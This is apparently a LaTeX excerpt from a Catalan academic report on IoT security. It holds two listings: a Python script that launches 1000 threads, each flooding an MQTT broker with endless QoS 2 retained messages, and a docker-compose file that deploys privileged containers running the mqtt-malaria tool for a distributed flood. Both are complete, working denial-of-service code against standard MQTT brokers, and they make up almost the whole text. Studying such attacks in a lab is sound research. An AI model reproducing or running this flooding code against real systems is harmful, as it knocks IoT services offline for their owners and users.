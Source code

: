 \begin{lstlisting}[language=Python, caption={Script de Python per a l'atac de Denegació de Servei}, label=lst:DoSScript]
import sys
import paho.mqtt.client as mqtt
import time
from threading import Thread
import argparse

parser = argparse.ArgumentParser(description='MQTT Client')
parser.add_argument('broker', help='MQTT broker address')
                    
broker = parser.parse_args().broker
port = 1883
topic = "mqttTest"
messages_per_run =1000
threads = 1000

counter = 0

def on_connect(client, userdata, flags, rc):
    if rc == 0:
        print("Connected to MQTT broker successfully")
    else:
        print(f"Failed to connect, return code {rc}")

def mqtt_flood():
    global counter
    client = mqtt.Client()
    client.on_connect = on_connect
    client.connect(broker, port, 60)
    client.loop_start()
    try:
        while True:
            for _ in range(messages_per_run):
                counter += 1
                message = f"Payload: {counter % 10 * 1024}"
                client.publish(topic, message, qos=2, retain=True)
                print(f"Sent message: {message}")
            time.sleep(0.1)
    except KeyboardInterrupt:
        print("[-] Canceled by user")
        client.loop_stop()
        client.disconnect()

try:
    print("Starting MQTT Flooder...\n")
    for _ in range(threads):
        t = Thread(target=mqtt_flood)
        t.start()
except KeyboardInterrupt:
    print("[-] Canceled by user")
\end{lstlisting}

\begin{lstlisting}[language=yaml, caption={Desplegament de contenidors per a l'atac DDoS}, label=lst:DDoS]
services:
  client1:
    image: client-mqtt-malaria
    container_name: client1
    privileged: true
    volumes:
      - ./clients/cl1:/home/
    environment:
      - ip_broker=${ip_broker}
    command: bash -c "python2 /home/mqtt-malaria/malaria publish -P 8 -n 10000 -H $${ip_broker} -s 100 -q 2"
    networks:
      IoTnet:
        ipv4_address: ${ip_cl1}

  client2:
    image: client-mqtt-malaria
    container_name: client2
    privileged: true
    volumes:
      - ./clients/cl1:/home/
    environment:
      - ip_broker=${ip_broker}
    command: bash -c "python2 /home/mqtt-malaria/malaria publish -P 8 -n 10000 -H $${ip_broker} -s 100 -q 2"
    networks:
      IoTnet:
        ipv4_address: ${ip_cl2}

networks:
  IoTnet:
    driver: macvlan
    driver_opts:
      parent: ${interface}
    ipam:
      config:
        - subnet: ${net}${mask}
          gateway: ${gw}
\end{lstlisting}

